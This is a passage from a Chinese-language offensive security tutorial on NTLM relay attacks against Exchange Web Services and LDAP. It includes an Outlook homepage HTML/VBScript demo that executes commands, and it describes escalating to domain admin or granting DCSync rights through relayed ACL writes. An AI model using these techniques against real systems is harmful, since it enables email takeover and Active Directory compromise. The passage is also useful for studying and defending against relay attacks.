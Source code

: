 Exchange的认证也是支持NTLM SSP的。我们可以relay的Exchange，从而收发邮件，代理等等。在使用outlook的情况下还可以通过homepage或者下发规则达到命令执行的效果。而且这种Relay还有一种好处，将Exchange开放在外网的公司并不在少数，我们可以在外网发起relay，而不需要在内网，这是最刺激的。
下面演示通过[NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS.git)(事实上，工具挺多的。其他的大家可以上github自己找)来实现Relay2ews
![](https://p4.ssl.qhimg.com/t010d550875927b8f5e.png)
![](https://p0.ssl.qhimg.com/t011afceb68b79372ca.png)
![](https://p3.ssl.qhimg.com/t01d5e80035e172d3c5.png)
+ 配合homepage 能够实现命令执行的效果
	1.homepage的简易demo代码如下
```
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
<!--
 Sub window_onload()
     Set Application = ViewCtl1.OutlookApplication
     Set cmd = Application.CreateObject("Wscript.Shell")
     cmd.Run("calc")
 End Sub
-->

</script>
</head>

<body>
 <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object>
</body>
</html>
```
	2.放置于web服务器。在NtlmRelayToEWS 里面通过-u 参数指定
![](https://p2.ssl.qhimg.com/t016a591f9a50f67365.png)
![](https://p2.ssl.qhimg.com/t013d5593ffb2339f77.png)
### Relay2LDAP
不管是杀伤力巨大的8581还是1040。Relay到ldap都在里面发挥着巨大的作用。
relay 到ldap的话，能干嘛呢
这里着重介绍三种通用性比较强的利用思路。这三种在impacket里面的ntlmrelayx都有实现。(这三种通用性比较强而已，实际中这个的利用比较灵活，需要通过 nTSecurityDescriptor分析用户在域内对哪些acl有权限，什么权限。关于acl怎么深入利用,这里不再展开，后面在ldap篇会详细说明)
![](https://p4.ssl.qhimg.com/t01b31d966b33575140.png)
	1.高权限用户
如果NTLM发起用户在以下用户组
> Enterprise admins
> Domain admins
> Built-in Administrators
> Backup operators
> Account operators
那么就可以将任意用户拉进该组，从而使该用户称为高权限用户，比如域管
![](https://p1.ssl.qhimg.com/t01e4daef09128988f5.png)
![](https://p4.ssl.qhimg.com/t01db1fea97b977fe39.png)
	1.write-acl 权限
如果发起者对
`DS-Replication-GetChanges(GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)`
和
`DS-Replication-Get-Changes-All(1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)`
有write-acl 权限，那么就可以在该acl里面添加任意用户，从而使得该用户可以具备dcsync的权限
